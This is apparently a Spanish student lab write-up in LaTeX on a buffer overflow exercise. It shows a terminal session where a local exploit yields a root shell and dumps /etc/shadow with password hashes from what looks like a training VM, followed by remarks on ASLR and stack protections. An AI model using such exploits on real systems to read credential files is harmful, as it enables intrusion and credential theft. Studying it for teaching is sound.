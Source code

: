 \documentclass[]{article}
\begin{document}
Una vez que tenemos todo compilado, hacemos la siguiente prueba:

\begin{verbatim}
$ ./bo2echo > badfile # generar el badfile
$ cat /etc/shadow # intentamos leer shadow
cat: /etc/shadow: Permission denied
$ ./bo2xploit # explotar
sh-3.2# cat /etc/shadow
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:14742:0:99999:7:::
sync:*:14684:0:99999:7:::
games:*:14684:0:99999:7:::
man:*:14684:0:99999:7:::
lp:*:14684:0:99999:7:::
mail:*:14684:0:99999:7:::
news:*:14684:0:99999:7:::
uucp:*:14684:0:99999:7:::
proxy:*:14684:0:99999:7:::
www-data:*:14684:0:99999:7:::
backup:*:14684:0:99999:7:::
list:*:14684:0:99999:7:::
irc:*:14684:0:99999:7:::
gnats:*:14684:0:99999:7:::
nobody:*:14684:0:99999:7:::
libuuid:!:14684:0:99999:7:::
dhcp:*:14684:0:99999:7:::
syslog:*:14684:0:99999:7:::
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:14742:0:99999:7:::
sshd:*:14684:0:99999:7:::
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:14684:0:99999:7:::
bind:*:14685:0:99999:7:::
postfix:*:14685:0:99999:7:::
ftp:*:14685:0:99999:7:::
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:14685:0:99999:7:::
mysql:!:14685:0:99999:7:::
tomcat55:*:14691:0:99999:7:::
distccd:*:14698:0:99999:7:::
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:14699:0:99999:7:::
service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:14715:0:99999:7:::
telnetd:*:14715:0:99999:7:::
proftpd:!:14727:0:99999:7:::
statd:*:15474:0:99999:7:::
snmp:*:15480:0:99999:7:::
\end{verbatim}

Y entonces ya tenemos permisos de super usuario.

\subsection{Otras tareas del ejerecicio 2}
El documento del ejercicio 2 unas tareas adicionales donde dice que se active el ASLR, la protección del la pila, o que se ponga no ejecutable la pila.

\vspace{10pt}

Respondemos brevemente lo que sucede en cada caso porque ya hemos explicado la teoría en el primer apartado:
\end{document}
